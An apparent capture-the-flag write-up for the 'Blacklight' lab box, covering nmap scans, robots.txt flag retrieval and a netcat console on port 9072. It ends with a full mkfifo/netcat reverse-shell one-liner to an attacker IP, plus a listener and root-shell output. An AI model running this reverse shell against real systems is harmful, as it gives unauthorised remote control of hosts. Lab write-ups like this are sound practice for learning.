 #+TITLE: WriteUp Blcklight Cyberrages
#+AUTHOR: Redacted

* Enumeration
We start the work with a simple ~Host scan~ to understand if the hosts is up.
#+begin_src bash
sudo nmap -sn  192.168.125.150
#+end_src

_Output_:
#+begin_src text
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-23 09:10 EST
Nmap scan report for 192.168.125.150
Host is up (0.042s latency).
Nmap done: 1 IP address (1 host up) scanned in 0.12 seconds
#+end_src

#+begin_export bash
sudo nmap 192.168.125.150 -O -T4
#+end_export

_Output_:
#+begin_src bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-23 09:12 EST
Nmap scan report for 192.168.125.150
Host is up (0.094s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=2/23%OT=80%CT=1%CU=36568%PV=Y%DS=3%DC=I%G=Y%TM=65D8
OS:A7CC%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=10A%TI=Z%CI=I%II=I%TS=A)
OS:OPS(O1=M557ST11NW6%O2=M557ST11NW6%O3=M557NNT11NW6%O4=M557ST11NW6%O5=M557
OS:ST11NW6%O6=M557ST11)WIN(W1=6D38%W2=6D38%W3=6D38%W4=6D38%W5=6D38%W6=6D38)
OS:ECN(R=Y%DF=Y%T=40%W=6E28%O=M557NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%
OS:F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T
OS:5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=
OS:Z%F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK
OS:=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 3 hops

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.49 seconds
#+end_src

The host is _up_ and we have just find one port, the 80 HTTP.
Now we need to find more informations about the host lisks which port are opens.
So let'continue the enumertion with full TCP ports scan.
#+begin_src bash
nmap -sC -sV 192.168.125.150 -p- --reason 
#+end_src

_Output_:
#+begin_src bash
<SNIP>
PORT     STATE SERVICE REASON  VERSION
80/tcp   open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-title: BLACKLIGHT
|_http-server-header: Apache/2.4.29 (Ubuntu)
9072/tcp open  unknown syn-ack
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NULL, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, X11Probe: 
|_    BLACKLIGHT console mk1. Type .help for instructions
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
<SNIP
#+end_src

We have finds some intersting informetions about the hosts.
It has two open ports:
~80 HTTP~ running an Apache https with 2.4.29 versions.
~9072 unknown~, it isn't a standard port, from the nmap maybe some interaction protocol via terminal.
* Footprinting
** 80 http
We start by looking for a connection to the web server.
[[./pics/web.png]]

Except for some information about the other the only good stuff is a phrese that say that: "_You are already close to the first flag. The web is the way._"
before enumerating with arrogance let’s try some classical things.
#+begin_src bash
curl -X GET 192.168.125.150/robots.txt
#+end_src
_Output_:
#+begin_src text
User-agent: *
flag1.txt
blacklight.dict
#+end_src

Okey, simple, the first flag is taken.
#+begin_src bash
curl -X GET 192.168.125.150/flag1.txt
#+end_src
_Output_:
#+begin_src text
{flag1:<redacted>}

9072. The secret is at home.
#+end_src
And other hint!

Another interrupting thing made available by the web server is a dict, let’s take it.
#+begin_src bash
wget 192.168.125.150/blacklight.dict
#+end_src

#+begin_src bash
wc -l blacklight.dict 
#+end_src
_Output_:
#+begin_src text
398 blacklight.dict
#+end_src
We have in hand a list with 398 entries.

** 9072 unknown
Let's check more carefully the port 9072 for try to find other stuff.
We dosen't know what's behind the port, but nmap output has give to us an interesting string.
#+begin_src text
  BLACKLIGHT console mk1. Type .help for instructions	
#+end_src
It's look likes an interaction via terminal whit the service, there's nothing left to try.
#+begin_src bash
nc 192.168.125.150 9072
#+end_src

_Output_:
#+begin_src text
BLACKLIGHT console mk1. Type .help for instructions
#+end_src

As we expected the connection was established and is waiting for our input.
we will immediately enter ~.help~ to understand what we are offered.

#+begin_src text
BLACKLIGHT console mk1. Type .help for instructions
.help 
.readhash - Get one step closer
.exec <cmd> - Execute commands
.quit - Exit the server
.exec ls
You have one more command until the server shuts down. Choose wisely!
#+end_src

We are offered three comands, ~.readhash~, ~.exec~, ~.quit~, the ~.exec~ immediately attracts attention but trying we realize that it runs a specific command that we do not know and also gives us a last attempt to try, what will happen next?
It’s not worth it, the hash command looks interrupting, let’s try it
#+begin_src text
.readhash
b5f4723bd6df85b54b0905bd6d734be9ef1cc1eb977413a932a828b5c52ef5a6
Bye!
#+end_src

We have just found aa ~hash~, this is very important, let's save it for later.
#+begin_src bash
echo 'b5f4723bd6df85b54b0905bd6d734be9ef1cc1eb977413a932a828b5c52ef5a6' > hash.unknown
#+end_src

Really interesting the behavior of the service, once closed the connection will also be closed the port, we did well not to dare with . exec.
#+begin_src bash
nmap -sC 192.168.125.150 -p 9072   
#+end_src

_Output_:
#+begin_src text
Nmap scan report for 192.168.125.150
Host is up (0.047s latency).

PORT     STATE  SERVICE
9072/tcp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 0.25 seconds
#+end_src

Being curious to understand thoroughly I decided to restart the car and try a second way.
create a payload for a reverse shell.
#+begin_src 
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.3.177.13 4444 >/tmp/f
#+end_src

_Start Listener_
#+begin_src bash
nc -nlvp 4444
#+end_src

_Output_:
#+begin_src text
  192.168.125.150: inverse host lookup failed: Unknown host
  connect to [192.168.125.150] from (UNKNOWN) [192.168.125.150] 57228
  /bin/sh: 0: can't access tty; job control turned off
  # whoami
  root
#+end_src

Blacklight is a very easy challenge. It is only suitable for absolute beginners. I wish if the author had integrated some exploitation scenarios or privilege escalation vectors to the box.
